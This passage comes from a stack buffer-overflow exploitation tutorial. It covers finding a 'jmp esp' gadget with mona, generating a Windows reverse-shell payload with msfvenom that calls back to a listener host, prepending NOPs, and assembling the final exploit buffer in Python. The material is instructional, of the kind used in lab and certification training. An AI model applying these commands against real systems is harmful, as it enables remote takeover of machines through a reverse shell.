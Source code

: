 The mona find command can similarly be used to find specific instructions, though for the most part, the jmp command is sufficient:

.. code-block:: none

    !mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x0a\x0d"

Generate Payload
================

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:

.. code-block:: none

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.92 LPORT=53 EXITFUNC=thread -b "\x00\x0a\x0d" -f c

Prepend NOPs
============

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.

Final Buffer
============

.. code-block:: none

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "\x56\x23\x43\x9A"
    padding = "\x90" * 16
    payload = "\xdb\xde\xba\x69\xd7\xe9\xa8\xd9\x74\x24\xf4\x58\x29\xc9\xb1..."
    postfix = ""
    
    buffer = prefix + overflow + retn + padding + payload + postfix